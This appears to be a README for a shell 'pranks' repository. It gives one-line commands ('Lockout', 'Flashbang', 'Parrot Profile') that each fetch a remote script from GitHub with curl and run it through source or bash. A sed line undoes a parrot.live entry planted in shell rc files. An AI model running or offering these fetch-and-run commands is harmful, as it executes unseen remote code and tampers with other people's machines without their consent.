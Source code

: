 # Lockout
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/lockout/lockout.sh)

# Flashbang

    bash <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/flashbang/flashbang.sh)

# Got parroted?
    sed -i '/curl parrot.live/d' ~/.zshrc && sed -i '/curl parrot.live/d' ~/.bashrc
    
# Parrot Profile
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/face/parrot.sh)
